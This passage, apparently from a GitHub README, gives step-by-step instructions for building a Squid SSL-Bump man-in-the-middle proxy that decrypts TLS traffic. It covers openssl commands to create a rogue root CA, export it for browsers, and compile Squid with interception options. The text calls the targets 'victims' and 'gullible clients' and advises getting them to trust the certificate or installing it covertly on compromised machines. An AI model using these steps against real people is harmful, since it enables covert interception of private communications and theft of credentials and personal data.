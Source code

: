You do not need to generate the client and server side certificates and key pairs, these will be auto-generated by the Squid proxy itself as time passes by. However you do need to generate and hand out a copy of the myCA.der credentials to each targeted victim to be installed on their web browser.

To successfully capture and decrypt the TLS 1.2 transmissions, we need to hand out credentials that originated from a single, known and compromised keyfile. We need to make sure that our victims trust us and would willingly install the certificate on their home web browsers. Or if their machines have already been compromised and thus ripe for manual configuration.

Generate a root Certificate Authority Keyfile called myCA.pem

```
cd /etc/squid
mkdir ssl_cert
chown squid:squid -R ssl_cert
chmod 700 ssl_cert
cd ssl_cert
openssl req -new -newkey rsa:2048 -sha256 -days 365 -nodes -x509 -extensions v3_ca -keyout myCA.pem  -out myCA.pem
```

Then generate the mandatory browser-installable client certificate and then distribute this certificate to your victims, or install it covertly.

```
openssl x509 -in myCA.pem -outform DER -out myCA.der
```

	# Install the latest version of Squid and self-compile it with the correct parameters

You cannot install Squid from the APT repo. You MUST configure Squid prior to compilation with options '--with-openssl', '--enable-ssl-crtd', and '--prefix=/usr/local/squid'

Note that this will not disrupt or break any currently installed versions of Squid, What you will end up with is having two distinct versions of Squid, the one that is currently installed on your PC, and a newer, customized one that can perform the SSL-Bump attack via the man-in-the-middle-method.

Get the newest version of Squid in it's source code format, ready for compilation.

```
wget http://www.squid-cache.org/Versions/v4/squid-4.5.tar.gz
tar -xvzf squid-4.5.tar.gz
cd squid-4.5
```

Now compile Squid with our special options

```
./configure --with-openssl --enable-ssl-crtd --prefix=/usr/local/squid
make
make all
make install
```

This will take a while but by the end of it, you will have two directories, a /etc/squid/ssl-cert directory for the credentials, and a /usr/local/squid directory that represents your bleeding-edge version of Squid that can mitm attack gullible clients and functions as a reversed intercept-proxy.
